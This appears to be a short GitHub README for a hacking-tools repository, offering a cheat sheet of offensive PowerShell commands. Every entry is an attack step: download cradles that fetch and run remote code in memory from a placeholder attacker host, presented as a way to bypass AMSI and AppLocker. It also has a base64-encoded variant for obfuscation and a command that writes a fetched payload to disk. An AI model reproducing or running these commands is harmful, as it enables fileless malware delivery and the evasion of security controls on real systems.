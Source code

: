 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded (run in linux)
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
